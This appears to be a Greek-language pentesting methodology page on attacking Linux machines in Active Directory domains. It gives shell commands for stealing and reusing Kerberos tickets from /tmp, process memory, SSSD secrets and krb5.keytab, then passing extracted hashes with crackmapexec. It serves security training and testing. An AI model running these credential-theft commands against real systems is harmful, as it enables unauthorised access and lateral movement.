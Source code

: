 # Linux Active Directory

{{#include ../../banners/hacktricks-training.md}}

Ένα μηχάνημα linux μπορεί επίσης να είναι παρόν σε ένα περιβάλλον Active Directory.

Ένα μηχάνημα linux σε ένα AD μπορεί να **αποθηκεύει διάφορα CCACHE tickets μέσα σε αρχεία. Αυτά τα tickets μπορούν να χρησιμοποιηθούν και να καταχραστούν όπως οποιοδήποτε άλλο kerberos ticket**. Για να διαβάσετε αυτά τα tickets θα χρειαστεί να είστε ο χρήστης κάτοχος του ticket ή **root** μέσα στο μηχάνημα.

## Enumeration

### AD enumeration από linux

Αν έχετε πρόσβαση σε ένα AD σε linux (ή bash σε Windows) μπορείτε να δοκιμάσετε [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) για να καταγράψετε το AD.

Μπορείτε επίσης να ελέγξετε την παρακάτω σελίδα για να μάθετε **άλλους τρόπους για να καταγράψετε το AD από linux**:

{{#ref}}
../../network-services-pentesting/pentesting-ldap.md
{{#endref}}

### FreeIPA

Το FreeIPA είναι μια ανοιχτού κώδικα **εναλλακτική** λύση για το Microsoft Windows **Active Directory**, κυρίως για **Unix** περιβάλλοντα. Συνδυάζει έναν πλήρη **LDAP directory** με ένα MIT **Kerberos** Key Distribution Center για διαχείριση παρόμοια με το Active Directory. Χρησιμοποιεί το Dogtag **Certificate System** για τη διαχείριση πιστοποιητικών CA & RA, υποστηρίζει **multi-factor** authentication, συμπεριλαμβανομένων των smartcards. Το SSSD είναι ενσωματωμένο για διαδικασίες αυθεντικοποίησης Unix. Μάθετε περισσότερα γι' αυτό στην:

{{#ref}}
../freeipa-pentesting.md
{{#endref}}

## Παίζοντας με τα tickets

### Pass The Ticket

Σε αυτή τη σελίδα θα βρείτε διάφορες τοποθεσίες όπου μπορείτε να **βρείτε kerberos tickets μέσα σε έναν linux host**, στην επόμενη σελίδα μπορείτε να μάθετε πώς να μετατρέψετε αυτά τα CCache ticket formats σε Kirbi (τη μορφή που χρειάζεστε να χρησιμοποιήσετε σε Windows) και επίσης πώς να εκτελέσετε μια επίθεση PTT:

{{#ref}}
../../windows-hardening/active-directory-methodology/pass-the-ticket.md
{{#endref}}

### CCACHE ticket reuse από /tmp

Τα αρχεία CCACHE είναι δυαδικές μορφές για **αποθήκευση Kerberos credentials** και συνήθως αποθηκεύονται με δικαιώματα 600 στο `/tmp`. Αυτά τα αρχεία μπορούν να αναγνωριστούν από τη **μορφή ονόματος τους, `krb5cc_%{uid}`,** που σχετίζεται με το UID του χρήστη. Για την επαλήθευση του ticket αυθεντικοποίησης, η **μεταβλητή περιβάλλοντος `KRB5CCNAME`** θα πρέπει να οριστεί στο μονοπάτι του επιθυμητού αρχείου ticket, επιτρέποντας την επαναχρησιμοποίησή του.

Καταγράψτε το τρέχον ticket που χρησιμοποιείται για αυθεντικοποίηση με `env | grep KRB5CCNAME`. Η μορφή είναι φορητή και το ticket μπορεί να **επανχρησιμοποιηθεί ορίζοντας τη μεταβλητή περιβάλλοντος** με `export KRB5CCNAME=/tmp/ticket.ccache`. Η μορφή ονόματος του kerberos ticket είναι `krb5cc_%{uid}` όπου uid είναι το UID του χρήστη.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Τα αποθηκευμένα Kerberos tickets στη μνήμη μιας διαδικασίας μπορούν να εξαχθούν**, ιδιαίτερα όταν η προστασία ptrace της μηχανής είναι απενεργοποιημένη (`/proc/sys/kernel/yama/ptrace_scope`). Ένα χρήσιμο εργαλείο για αυτόν τον σκοπό βρίσκεται στο [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), το οποίο διευκολύνει την εξαγωγή με την ένεση σε συνεδρίες και την εκφόρτωση των tickets στο `/tmp`.

Για να ρυθμίσετε και να χρησιμοποιήσετε αυτό το εργαλείο, ακολουθούνται τα παρακάτω βήματα:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Αυτή η διαδικασία θα προσπαθήσει να εισάγει σε διάφορες συνεδρίες, υποδεικνύοντας επιτυχία αποθηκεύοντας τα εξαγόμενα εισιτήρια στο `/tmp` με μια ονοματολογία `__krb_UID.ccache`.

### CCACHE ticket reuse από SSSD KCM

Το SSSD διατηρεί ένα αντίγραφο της βάσης δεδομένων στη διαδρομή `/var/lib/sss/secrets/secrets.ldb`. Το αντίστοιχο κλειδί αποθηκεύεται ως κρυφό αρχείο στη διαδρομή `/var/lib/sss/secrets/.secrets.mkey`. Από προεπιλογή, το κλειδί είναι αναγνώσιμο μόνο αν έχετε δικαιώματα **root**.

Η κλήση \*\*`SSSDKCMExtractor` \*\* με τις παραμέτρους --database και --key θα αναλύσει τη βάση δεδομένων και θα **αποκρυπτογραφήσει τα μυστικά**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Ο **κάδος κωδικών πρόσβασης Kerberos μπορεί να μετατραπεί σε ένα χρησιμοποιήσιμο αρχείο Kerberos CCache** που μπορεί να περαστεί σε Mimikatz/Rubeus.

### Επαναχρησιμοποίηση εισιτηρίου CCACHE από keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Εξαγωγή λογαριασμών από το /etc/krb5.keytab

Τα κλειδιά λογαριασμού υπηρεσίας, που είναι απαραίτητα για υπηρεσίες που λειτουργούν με δικαιώματα root, αποθηκεύονται με ασφάλεια στα αρχεία **`/etc/krb5.keytab`**. Αυτά τα κλειδιά, παρόμοια με τους κωδικούς πρόσβασης για υπηρεσίες, απαιτούν αυστηρή εμπιστευτικότητα.

Για να ελέγξετε το περιεχόμενο του αρχείου keytab, μπορεί να χρησιμοποιηθεί το **`klist`**. Το εργαλείο είναι σχεδιασμένο να εμφανίζει λεπτομέρειες κλειδιών, συμπεριλαμβανομένου του **NT Hash** για την αυθεντικοποίηση χρηστών, ιδιαίτερα όταν ο τύπος κλειδιού αναγνωρίζεται ως 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Για τους χρήστες Linux, **`KeyTabExtract`** προσφέρει λειτουργικότητα για την εξαγωγή του RC4 HMAC hash, το οποίο μπορεί να χρησιμοποιηθεί για την επαναχρησιμοποίηση του NTLM hash.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Στο macOS, **`bifrost`** χρησιμεύει ως εργαλείο για την ανάλυση αρχείων keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Χρησιμοποιώντας τις εξαγόμενες πληροφορίες λογαριασμού και κατακερματισμού, μπορούν να δημιουργηθούν συνδέσεις με διακομιστές χρησιμοποιώντας εργαλεία όπως το **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Αναφορές

- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
- [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{{#include ../../banners/hacktricks-training.md}}
